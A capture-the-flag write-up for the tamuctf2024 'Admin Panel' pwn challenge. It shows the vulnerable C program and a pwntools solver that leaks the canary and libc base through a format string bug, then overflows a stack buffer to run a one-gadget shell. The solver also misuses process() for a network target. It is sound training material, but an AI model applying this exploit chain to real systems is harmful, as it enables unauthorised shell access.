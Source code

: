 # Admin Panel Writeup - Pwn - tamuctf2024

This challenge contains both a format string vulnerability and a buffer overflow. We can exploit these to leak addresses, retrieve the canary, and then use a one-gadget to gain a shell and retrieve the flag.

## Source Code
```c
#include <stdio.h>
#include <string.h>

int upkeep() {
	// IGNORE THIS
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

int admin() {
	int choice = 0;
	char report[64];

	puts("\nWelcome to the administrator panel!\n");
	puts("Here are your options:");
	puts("1. Display current status report");
	puts("2. Submit error report");
	puts("3: Perform cloning (currently disabled)\n");

	puts("Enter either 1, 2 or 3: ");
	scanf("%d", &choice);

	printf("You picked: %d\n\n", choice);

	if (choice == 1) {
		puts("Status report: \n");
		
		puts("\tAdministrator panel functioning as expected.");
		puts("\tSome people have told me that my code is insecure, but");
		puts("\tfortunately, the panel has many standard security measures implemented");
		puts("\tto make up for that fact.\n");

		puts("\tCurrently working on implementing cloning functionality,");
		puts("\tthough it may be somewhat difficult (I am not a competent programmer).");
	}
	else if (choice == 2) {
		puts("Enter information on what went wrong:");
		scanf("%128s", report);
		puts("Report submitted!");
	}
	else if (choice == 3) {
		// NOTE: Too dangerous in the wrong hands, very spooky indeed
		puts("Sorry, this functionality has not been thoroughly tested yet! Try again later.");
		return 0;

		clone();
	}
	else {
		puts("Invalid option!");
	}
}

int main() {
	upkeep();

	char username[16];
	char password[24];
	char status[24] = "Login Successful!\n";

	puts("Secure Login:");
	puts("Enter username of length 16:");
	scanf("%16s", username);
	puts("Enter password of length 24:");
	scanf("%44s", password);
	printf("Username entered: %s\n", username);
	if (strncmp(username, "admin", 5) != 0 || strncmp(password, "secretpass123", 13) != 0) {
		strcpy(status, "Login failed!\n");
		printf(status);
		printf("\nAccess denied to admin panel.\n");
		printf("Exiting...\n");
		return 0;
	}
	
	printf(status);
	admin();

	printf("\nExiting...\n");
}
```

We can see that the `password` input allows up to 44 bytes, even though the actual password length is only 24 bytes. This can be exploited to leak addresses from the runtime, and by subtracting these from known libc addresses, we can obtain the `libc_base`.

In the `admin` function, there's also a buffer overflow vulnerability in the `report` input, which allows 128 bytes, but the buffer is only allocated 64 bytes.

### Steps to Capture the Flag:
1. Exploit the format string vulnerability to leak the address of `__libc_start_main` and the canary from the runtime.
2. Calculate the libc base by subtracting the leaked `__libc_start_main` address from the known offset in `libc.so.6`.
3. Find the address of a one-gadget, then overwrite the return address with `pop rax` to call the one-gadget.

## Solver Code
```python
from pwn import *
# context.log_level = "debug"
context.arch = "amd64"

p = process("localhost", 1337)

p.sendline(b"admin")

password = b"secretpass123"
sendpw = password.ljust(0x20, b"A") + b"%15$p%17$p"
print(sendpw)
p.sendline(password.ljust(0x20, b"A") + b"%15$p%17$p")

p.recvuntil(b"entered:")
p.recvline()
leak = p.recvlineS()
print(f'This is the leak: {leak}')
canary, __libc_start_main_ret = [int(x, 16) for x in leak.split("W")[0].split("0x")[1:]]
print(hex(canary))
print(hex(__libc_start_main_ret))
libc_base = __libc_start_main_ret - 0x2409b
p.sendline(b"2")
one_gadget = 0x4497f + libc_base
pop_rax = 0x000000000003a768 + libc_base
payload = b"A" * (0x50 - 0x8) + p64(canary) + p64(0) + p64(pop_rax) + p64(0) + p64(one_gadget)
test_payload = b"A" * (0x50 - 0x8) + p64(canary) + b"B" * 8 + b"C" * 8 + b"D" * 8 + b"E" * 8
print(len(test_payload))
print(len(payload))
p.sendline(payload)

p.interactive()
```

Thank you :))